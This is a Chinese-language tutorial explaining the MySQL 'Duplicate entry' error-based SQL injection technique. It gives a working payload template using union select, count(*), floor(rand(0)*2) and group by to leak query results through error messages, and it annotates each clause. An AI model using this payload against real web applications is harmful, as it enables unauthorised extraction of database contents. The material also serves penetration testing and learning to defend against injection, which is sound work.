 # MySQL注入-重复条目报错回显注入公式原理分析

网上对于DuplicateEntry报错回显注入公式一般是如下的形式
```SQL
1' and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(单值式爆破语句))a from information_schema.tables group by a)b#
```


注入后数据库最终执行的语句类似以下格式：
```SQL
SELECT ... 
FROM ... 
WHERE id= 1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),
        CONCAT(
            FLOOR(RAND(0)*2),
            ( 单值式注入语句 ) 
        )a  
    FROM information_schema.tables  
    GROUP BY a 
) b--
```

这个公式有3个要点
1. 构造布尔断路引发的并联查询，目的是断路掉前面的查询，把查询流程完全引导到并联查询（union）语句中离去。payload为：
 a' and 1=2 union select
2. 嵌套优先报错的from子查询：由于并联查询(union)要求前后的列数目一致，需要把先执行的子查询中的duplicate entry错误抢在union select的列数不一致错误之前触发。这样列数多少就无关紧要了——因为代码永远不会执行到那就提前报错了。攻击载荷结构为: uinon
select 1 from ( 会产生duplicate entry的子查询语句 )b -- 。这里MySQL要求派生表必须提供别名（"Every derived table must have its own alias"），否则报错
3. 构造产生duplicate entry错误的查询。为什么会产生Duplicate entry错误呢？ 
知乎上[路西法同学对Duplicate entry的产生原因](http://www.zhihu.com/question/21031129)分析非常清晰。
根据MySQL手册，rand()不可以作为ORDER BY的条件字段， 同理也不可以为group by的。上面这个mysql的bug的主要问题是获取的值不确定又可重复。同时又要来操作结果。值得注意的是，如果没有重新刷一次结果（例子中用的是count(*)来统计结果），单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),那么也不会报错 ，所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）
整理这段注入代码的构造思路如下：

```SQL
...
WHERE id= 1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),    ##刷新
        CONCAT(      ##制造具有随机名称的字段
            FLOOR(RAND(0)*2),    ##制造随机数
            ( 单值式注入语句 )   ##真正需要执行的SQL指令，必须是单值式SQL命令
        )a           ##为制造出来的随机字段创建别名
    FROM information_schema.tables  
    GROUP BY a       ##利用制造出来的随机字段分组
) b--                ##MySQL要求派生表必须提供别名
```


 

 
